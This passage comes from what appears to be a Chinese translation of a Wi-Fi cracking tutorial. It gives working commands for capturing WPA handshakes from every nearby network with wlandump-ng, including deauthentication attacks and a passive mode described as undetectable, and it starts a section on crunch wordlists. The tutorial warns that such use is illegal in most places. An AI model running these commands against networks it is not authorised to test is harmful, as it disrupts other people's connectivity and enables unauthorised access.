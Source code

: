 hachcat 社区有一个[更棒的工具](https://github.com/brannondorsey/wifi-cracking/issues/15)可以抓取 WPA 的 4-way handshakes。它是 hashcat 工具包的一部分，叫 [hcxtools](https://github.com/ZerBea/hcxtools) ，由 [ZerBea](https://github.com/ZerBea) 开发，名声已经超过了 `airdump-ng`。`wlandump-ng` 允许你一次性从每个附近的网络上全面抓取 handshake 信息，跳过 Wi-Fi 信道，以增加收集。

```bash
# 克隆 hcxtools
git clone https://github.com/ZerBea/hcxtools
cd hcxtools

# 构建并且安装
# 你将可能需要apt来安装需要的依赖
# https://github.com/ZerBea/hcxtools#requirements
make
sudo make install

# 覆盖所有失去从附近接入点失去连接的客户端并且监听重新连接
# 将wlan0替换成你的无线设备名称
wlandump-ng -i wlan0 -o capture.cap -c 1 -t 60 -d 100 -D 10 -m 512 -b -r -s 20 

# 一旦你获得了抓取的文件，你可以利用以下命令将其转换成hashcat抓取格式
cap2hccapx.bin capture.cap capture.hccapx
```

`wlandump-ng` 命令行参数（使用 `h` 标志来获得完整列表）：

- `-c 1`：从通道 1 开始的 2.4Ghz 范围（将转到13）
- `-t 60`：每个通道停留 60s（实验值较低，默认值为 5）
- `-d 100`：发送 deauth 每 100 个信标帧
- `-D 10`：每隔 10 个信标帧发送解析数据包
- `-m 512`：内部缓冲区大小，对于低资源机器使用 512
- `-b`：激活信号到最后 10 个探测请求
- `-r`：如果循环在通道 1 上，则重置 deauthentication / detachosciation 计数器
- `-s 20`：显示 20 条状态行

**警告：** 在大多数地方使用这个是不合法的。更多信息请参考[这里](https://github.com/ZerBea/hcxtools#warning)。

`wlandump-ng` 也提供了在被动模式下运行的选项，这时不会发送任何 deauth/disassociation 数据帧。 如果担心会影响到周围人使用网络（你应该是）时建议你使用这种模式。代价是你获得的 handshake 会少得多，不过用这种方法抓取不会被人察觉。

```bash
# 在被动模式下使用默认设置运行
wlandump-ng -i wlan0 -o capture.cap -p -s 20 
```

## 使用 `crunch` 生成单词列表

`crunch` 是使用给定字符串或模式的组合生成单词列表的工具。 我们可以使用 crunch 来即时生成密码列表，再通过管道传递给 `aircrack-ng` 而不必将单词列表保存到磁盘。

```bash
# 安装crunch
sudo apt-get install crunch
```

要想知道如何运行 crunch，可以从命令行运行（一旦开始发送密码，就可以按 `ctrl-c`）：
